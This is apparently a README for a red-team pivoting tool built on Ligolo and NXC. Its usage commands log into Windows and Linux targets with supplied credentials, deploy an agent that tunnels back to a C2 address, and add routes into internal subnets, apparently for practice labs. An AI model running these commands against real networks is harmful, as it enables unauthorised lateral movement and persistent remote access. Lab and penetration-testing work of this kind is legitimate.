 # Ligolo UwU v2

All-in-One Ligolo Manager with direct upload method.
This tool is built of NXC, ensure to have it working prior to use. 
## Quick Start

```bash
# Install globally
./ligolo-uwu.sh install

# Download binaries
ligolo-uwu download

# Start proxy
ligolo-uwu proxy 443

# Add target and deploy (machines must be uppercase, I know I know)
ligolo-uwu add WIN01 <ip> <user> <pass> <c2_ip> 443 winrm

# Add route
ligolo-uwu route 172.16.70.0
```

## Syntax

### Installation
```bash
ligolo-uwu install                    # Install globally to /opt
ligolo-uwu clean                      # Clean up all lab files
ligolo-uwu clean --uninstall          # Clean up and uninstall
```

### Proxy Management
```bash
ligolo-uwu proxy <port> [interface]   # Start proxy server
ligolo-uwu download                   # Download latest binaries
```

### Route Management
```bash
ligolo-uwu route <network>            # Add route to ligolo interface
ligolo-uwu route-del <network>        # Remove route from ligolo interface
ligolo-uwu routes                     # List all ligolo routes
```

### Agent Deployment
```bash
ligolo-uwu agent <target_name>        # Deploy to saved target
ligolo-uwu <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth] [--debug]
```

### Target Management
```bash
ligolo-uwu add <name> <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth]
ligolo-uwu list                       # List saved targets
ligolo-uwu remove <target_name>       # Remove saved target
```

## Protocols
- `ssh` - Linux targets
- `winrm` - Windows targets (PowerShell)
- `smb` - Windows targets (cmd.exe)

## Flags
- `--local-auth` - Use local authentication (winrm/smb)
- `--debug` - Enable debug output

## Examples

```bash
# Windows targets
ligolo-uwu add WIN01 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm
ligolo-uwu add WIN02 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm --local-auth
ligolo-uwu add WIN03 192.168.1.100 user 'Pass123!' 10.10.14.21 443 smb

# Linux targets
ligolo-uwu add LINUX01 10.10.110.25 root 'toor' 10.10.14.21 443 ssh

# Quick deploy
ligolo-uwu 192.168.1.100 admin 'pass123' 10.10.14.21 443 winrm --debug

# Routes
ligolo-uwu route 172.16.70.0          # Add /24 route
ligolo-uwu route 10.10.10.0/16        # Custom CIDR
ligolo-uwu routes                     # List routes
ligolo-uwu route-del 172.16.70.0      # Remove route

# Deploy to saved target
ligolo-uwu agent WIN01

# Clean up lab
ligolo-uwu clean
```
